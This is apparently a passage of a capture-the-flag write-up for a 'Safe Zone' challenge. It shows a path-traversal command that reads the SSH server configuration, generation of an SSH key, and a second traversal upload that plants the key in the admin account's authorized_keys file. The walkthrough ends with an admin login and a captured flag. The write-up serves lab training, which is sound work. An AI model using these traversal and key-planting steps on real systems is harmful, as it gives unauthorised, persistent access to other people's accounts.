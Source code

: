 ## We have found the first flag
>CTF{F0rtREss_Br3@c#3d}

<br><br>

## Second part - SAFE ZONE

### Flag information
> There are no roads. The only way you can walk is to break the wall..... and gain access.

We probably need to do something with that .ssh folder in order to gain access to the ssh port.

We need to check the configuration files of the ssh server.
Looking at the bash history we can see that it mentions the path of ssh config and by executing the following command we can retrieve it.

```
get ../../etc/ssh/sshd_config <path here>/sshd_config
```

The file contains the following relevant line:
```
#AuthorizedKeysFile	.ssh/authorized_keys .ssh/authorized_keys2
```
We can see the authentication for the ssh server is done using keys and the authorized keys are located in our special .ssh folder.

All we need to do is upload our own ssh key and we are in!

We can generate such a key by running the following command:
```
ssh-keygen -t rsa -f ./id_rsa
```

After generating it we can just place our public ssh key inside the .ssh folder
```
put ./id_rsa.pub ../admin/.ssh/authorized_keys
```

### We can now just login with our private key
>Note:  We need to enter the passsphrase we used during the key generation process and we need to login using the admin account.

```
➜  Desktop ssh -i ./id_rsa 10.6.0.100 -l admin
Enter passphrase for key './id_rsa':
##############################################################################
	Welcome to the hackers paradise - You were awesome
	Here is your mysterious flag - CTF{Th3_Inc3pt0r}
#############################################################################
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@701ee3dfcc4c:~$
```
